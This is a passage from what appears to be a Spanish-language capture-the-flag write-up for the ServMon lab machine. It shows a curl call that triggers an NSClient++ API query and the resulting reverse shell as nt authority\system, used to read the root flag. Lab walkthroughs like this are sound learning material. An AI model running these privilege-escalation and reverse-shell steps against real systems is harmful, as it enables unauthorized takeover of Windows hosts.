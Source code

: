 ```bash
nadine@SERVMON C:\Temp> curl -k -i -u admin https://127.0.0.1:8443/api/v1/queries/foobar?time=1m
```

Esperamos un par de segundos y revisamos la shelll reversa y ya debemos estar como administrador para finalmente obtener la flag del root.

```bash
connect to [10.10.14.43] from (UNKNOWN) [10.10.14.43] 49671
Microsoft Windows [Version 10.0.18363.752]          
(c) 2019 Microsoft Corporation. All rights reserved.

C:\Program Files\NSClient++>whoami
whoami
nt authority\system

C:\Program Files\NSClient++>cd C:\Users\Administrator\Desktop

C:\Users\Administrator\Desktop>type root.txt
```
